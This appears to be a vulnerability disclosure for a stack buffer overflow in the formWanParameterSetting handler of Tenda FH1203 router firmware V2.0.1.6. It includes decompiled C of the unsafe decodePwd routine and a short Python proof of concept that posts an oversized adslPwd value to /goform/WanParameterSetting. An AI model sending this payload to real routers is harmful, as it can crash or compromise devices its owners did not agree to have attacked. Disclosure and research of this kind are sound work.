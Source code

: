 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The Tenda FH1203 V2.0.1.6 firmware has a stack overflow vulnerability located in the `formWanParameterSetting` function. This function accepts the `wanType`and `connect` parameter from a POST request. Within `v4 == 2`, this function accepts the `adslPwd` parameter from a POST request, which is assigned to `decodePwd(v11, v15);`. However, since the user has control over the input of `adslPwd`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `adslPwd` can exceed the capacity of the `v15` array, thus triggering this security vulnerability.

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410144504996.png)

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410144434686.png)

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410144449758.png)

```c
_BYTE *__fastcall decodePwd(_BYTE *a1, _BYTE *a2)
{
  _BYTE *result; // $v0
  _BYTE *v3; // [sp+8h] [+8h]
  _BYTE *v4; // [sp+Ch] [+Ch]

  v3 = a1;
  v4 = a2;
  result = a1;
  if ( a1 )
  {
    result = a2;
    if ( a2 )
    {
      while ( *v3 )
      {
        if ( *v3 == 92 )
          ++v3;
        *v4++ = *v3++;
      }
      result = v4;
      *v4 = 0;
    }
  }
  return result;
}
```

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WanParameterSetting"
payload = b"a"*1000

data = {"wanType":"2","connect":"1","adslPwd": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409102339559](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102339559.png)